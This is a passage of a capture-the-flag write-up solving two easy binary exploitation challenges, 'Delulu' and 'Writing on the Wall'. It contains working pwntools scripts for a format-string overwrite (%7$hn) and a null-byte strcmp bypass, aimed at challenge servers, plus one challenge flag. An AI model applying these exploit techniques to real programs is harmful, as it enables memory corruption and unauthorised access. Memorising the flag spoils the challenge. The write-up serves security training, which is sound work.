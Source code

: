 # 2. Delulu (_very easy_)

There is a format string vulnerability in printf((const char \*)buf). We just need to overwrite v4[0] from 0x1337BABE to 0x1337BEEF by performing a two-byte overwrite. This will allow us to call the delulu() function and obtain the flag

![chall-sc](https://hackmd.io/_uploads/H1l6JdbA6.png)

![chall-sc](https://hackmd.io/_uploads/HJZyhmJRa.png)

```python
from pwn import *
exe = './delulu'
elf = context.binary = ELF(exe, checksec = 0)
context.bits = 64
context.log_level = 'debug'
context.terminal = ["kitty", "@launch", "--location=split", "--cwd=current"]
host, port = "nc 94.237.56.26 52359".split(" ")[1:3]
io = remote(host, port)
io.sendline('%{}x%7$hn'.format(str(0x1337BEEF & 0xFFFF)).encode())
io.interactive()
```

![chall-sc](https://hackmd.io/_uploads/HJG-nG1AT.png)

Flag: `HTB{m45t3r_0f_d3c3pt10n}`

# 3. Writing on the Wall (_very easy_)

There is a one-byte overflow vulnerability on read(0, buf, 7uLL), and we can bypass strcmp(buf, s2) with a null byte because the strcmp() function stops at a null byte. Hence, by sending 7 null bytes, we can cause strcmp() to evaluate as true and call the open_door() function, which displays the flag on the screen

![chall-sc](https://hackmd.io/_uploads/rkkIhmyC6.png)

![chall-sc](https://hackmd.io/_uploads/Bkyw3XkCT.png)

```python
from pwn import *
exe = './writing_on_the_wall'
elf = context.binary = ELF(exe, checksec = 0)
context.bits = 64
context.log_level = 'debug'
context.terminal = ["kitty", "@launch", "--location=split", "--cwd=current"]
host, port = "nc 94.237.62.241 38688".split(" ")[1:3]
io = remote(host, port)
io.sendline(b'\0' * 0x7)
io.interactive()
```

